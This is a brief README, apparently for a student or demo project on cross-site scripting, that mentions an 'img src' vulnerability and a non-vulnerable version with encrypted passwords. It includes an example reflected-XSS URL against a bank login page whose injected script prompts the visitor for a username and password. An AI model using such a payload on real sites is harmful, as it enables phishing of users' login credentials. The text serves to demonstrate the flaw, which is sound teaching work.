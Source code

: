 # XSS-Vunerable-Board
img src vunerable

http://freebankonline.com/banklogin.asp?err=<script>username=prompt('Please enter your username',' '); password=prompt('Please enter your password',' '); alert("username="+username+" and password="+password);</script>

Encrypt passwordin non-vunerable
